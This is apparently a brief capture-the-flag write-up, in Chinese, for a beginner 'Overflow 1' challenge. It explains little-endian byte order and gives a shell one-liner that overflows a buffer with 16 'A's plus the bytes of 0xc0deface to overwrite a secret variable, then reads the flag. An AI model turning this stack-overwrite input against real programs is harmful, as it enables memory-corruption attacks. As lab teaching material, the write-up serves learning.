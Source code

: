 # Overflow 1
給你一個有buffer overflow問題的程式，並且給你stack diagram。
 * x86是little endian：`0xc0deface`存成memory中，長的像這樣：`\xce\xfa\xde\xc0`
 * 只要填到讓buf溢出到secret的剛剛好等於 `\xce\xfa\xde\xc0` 即可
## Solve
```
$ ./overflow1 $(python -c 'print "A"*16 + "\xce\xfa\xde\xc0"')
$ ls
flag.txt    Makefile    overflow1 overflow1.c
$ cat flag.txt
ooh_so_critical
```
